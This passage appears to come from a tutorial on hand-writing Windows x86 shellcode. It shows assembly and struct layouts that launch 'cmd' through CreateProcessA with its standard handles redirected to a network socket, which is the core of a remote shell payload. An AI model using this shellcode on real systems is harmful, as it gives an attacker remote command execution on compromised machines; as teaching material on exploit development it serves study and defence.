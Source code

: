 So as you can see we have our work cut out for us here. Luckily a lot of these values are NULL for our purposes. Here's what CreateProcessA should look like. 

```
BOOL CreateProcessA(
  LPCSTR                lpApplicationName - NULL
  LPSTR                 lpCommandLine - pointer to "cmd" we'll store in ECX
  LPSECURITY_ATTRIBUTES lpProcessAttributes - NULL
  LPSECURITY_ATTRIBUTES lpThreadAttributes - NULL
  BOOL                  bInheritHandles - 1 (TRUE)
  DWORD                 dwCreationFlags - 0
  LPVOID                lpEnvironment - NULL
  LPCSTR                lpCurrentDirectory - NULL
  LPSTARTUPINFOA        lpStartupInfo - pointer we'll store in EAX
  LPPROCESS_INFORMATION lpProcessInformation - pointer we'll store in EBX
);
```
Let's go ahead and setup our pointer to "cmd"

```asm
mov edx, 0x646d6363	; cmdd
shr edx, 8		; cmd
push edx
mov ecx, esp		; pointer to "cmd"
```

We also need a pointer for ProcessInformation, however we can literally just point this to garbage on the stack.

```asm
xor edx, edx
sub esp, 16
mov ebx, esp		; pointer for ProcessInfo (points to garbage)
```

Now we'll need to create the ridiculous StartUpInfo pointer to reflect the following:

```
typedef struct _STARTUPINFOA {
  DWORD  cb - 0x44, size of structure
  LPSTR  lpReserved - NULL
  LPSTR  lpDesktop - NULL
  LPSTR  lpTitle - NULL
  DWORD  dwX - NULL
  DWORD  dwY - NULL
  DWORD  dwXSize - NULL
  DWORD  dwYSize - NULL
  DWORD  dwXCountChars - NULL
  DWORD  dwYCountChars - NULL
  DWORD  dwFillAttribute - NULL
  DWORD  dwFlags - STARTF_USESTDHANDLES 0x00000100
  WORD   wShowWindow - ignored
  WORD   cbReserved2 - NULL
  LPBYTE lpReserved2 - NULL
  HANDLE hStdInput - saved socket in ESI
  HANDLE hStdOutput - saved socket in ESI
  HANDLE hStdError - saved socket in ESI
}
```
